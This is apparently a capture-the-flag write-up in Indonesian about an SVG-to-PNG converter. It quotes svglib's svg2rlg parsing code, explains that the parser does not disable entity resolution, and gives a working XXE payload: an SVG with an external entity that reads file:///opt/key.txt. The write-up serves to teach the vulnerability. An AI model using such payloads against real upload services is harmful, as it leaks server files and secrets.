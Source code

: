 # SVG2PNG


Proses convert svg ke png menggunakan library `svglib`. Dimana secara internal `svglib` akan melakukan parsing XML menggunakan module `etree`dan yang di parsing adalah document root nya.


```
def svg2rlg(path, **kwargs):
    "Convert an SVG file to an RLG Drawing object."
    ....
   # load SVG file
    parser = etree.XMLParser(remove_comments=True, recover=True)
    try:
        doc = etree.parse(path, parser=parser) <-- Bug
        svg = doc.getroot() <-- Bug
    except Exception as exc:
        logger.error("Failed to load input file! (%s)" % exc)
        return

```

Pada method `XMLParser` paramter `resolve_entities = False` tidak digunakan.
Oleh karena itu bisa dilakukan `XXE Injection`

```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE svg [ <!ENTITY tasty SYSTEM "file:///opt/key.txt"> ]>
<svg width="520px" height="100px"  xmlns="http://www.w3.org/2000/svg">
    <g>
        <text font-size="13"  x="25" y="60">
           &tasty;
        </text>
    </g>
</svg>
```

Tinggal upload lalu akan mendapatkan flag.
